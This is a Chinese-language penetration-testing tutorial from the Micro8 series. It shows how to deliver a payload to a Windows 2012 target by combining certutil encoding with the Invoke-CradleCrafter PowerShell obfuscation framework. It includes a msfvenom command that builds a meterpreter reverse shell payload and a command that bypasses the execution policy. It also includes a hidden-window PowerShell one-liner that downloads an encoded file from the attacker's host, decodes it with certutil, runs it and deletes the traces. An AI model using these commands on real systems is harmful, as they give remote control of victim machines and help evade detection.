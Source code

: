 ```yaml
---
title: 44、ertutil一句话下载payload补充
date: 2019-09-21 19:05:14
comments: true
categories: 
 - Micro8系列
---
```



第八季中提到了 certutil 的加密与解密。  

```code
C:\>certutil -encode c:\downfile.vbs downfile.bat
```
而配合 powershell 的内存加载，则可把 certutil 发挥更强大。

**靶机：windows 2012**

而今天需要的是一款 powershell 的混淆框架的配合  
https://github.com/danielbohannon/Invoke-CradleCrafter

使用方法：
```code
Import-Module ./Invoke-CradleCrafter.psd1 Invoke-CradleCrafter
```  
![](../do/media/c62807cec766f0f6c92c2d821cd6ede3.jpg)

![](../do/media/5fd8400f05ad1fe156649bb7d4ab2726.jpg)

如果在加载 powershell 脚本的时候提示：**powershell
进行数字签运行该脚本。**
则先执行：
```code
set-executionpolicy Bypass
```

生成payload：（有关生成payload，会在未来的系列中讲到）

```code
root@John:/tmp# msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=53 ‐e cmd/powershell_base64 ‐f psh ‐o Micropoor.txt
```

![](../do/media/316a532d526b20050d34d02f8f06e952.jpg)

![](../do/media/cfa22fb95c6b008829035e91928f47db.jpg)

**启动apache：**  
![](../do/media/d34911ee8f5ed23aaef4fe39846d7c4d.jpg)

**powershell框架设置：**

SET URL http://192.168.1.5/Micropoor.txt  
![](../do/media/bc3142653214ae8fd411b32efcdb77a8.jpg)

**MEMORY**  
![](../do/media/62d726b8feae58ada003965ac15cfe4a.jpg)

**CERTUTIL**  
![](../do/media/b700f3bfebafc44073df52b62d79d73c.jpg)

**ALL**  
![](../do/media/9b29ae29a5bf7fd27b9ded5b889844c4.jpg)

**1**  
![](../do/media/f14a65e3707c230527b14312400969e0.jpg)

**混淆内容保存txt，后进行encode**  
![](../do/media/17b242fcc60d1fa5eb54d8f2c6268331.jpg)

把 cer.cer 与 Micropoo.txt 放置同一目录下。  

**目标机执行：**  
```code
powershell.exe ‐Win hiddeN ‐Exec ByPasS add‐content ‐path %APPDATA%\\cer.cer (New‐Object Net.WebClient).DownloadString('http://192.168.1.5/cer.cer'); certutil ‐decode %APPDATA%\cer.cer %APPDATA%\stage.ps1 & start /b cmd /c powershell.exe ‐Exec Bypass ‐NoExit ‐File %APPDATA%\stage.ps1 & start /b cmd /c del %APPDATA%\cer.cer
```

>   Micropoor
